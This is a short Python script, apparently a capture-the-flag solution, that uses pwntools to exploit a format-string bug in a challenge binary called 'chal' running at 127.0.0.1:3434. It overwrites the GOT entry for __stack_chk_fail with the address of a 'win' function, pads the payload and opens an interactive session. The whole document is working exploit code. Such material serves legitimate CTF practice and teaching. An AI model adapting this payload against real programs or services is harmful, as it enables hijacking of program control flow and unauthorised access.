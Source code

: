 ```python
from pwn import *
filename = './chal'
context.arch = 'amd64'
e = ELF(filename)
#p = process(filename)
p = remote('127.0.0.1', 3434)

payload = fmtstr_payload(6, {e.got['__stack_chk_fail'] : e.sym['win']})
payload += b'a'*(109-len(payload))
p.sendline(payload)

p.interactive()
```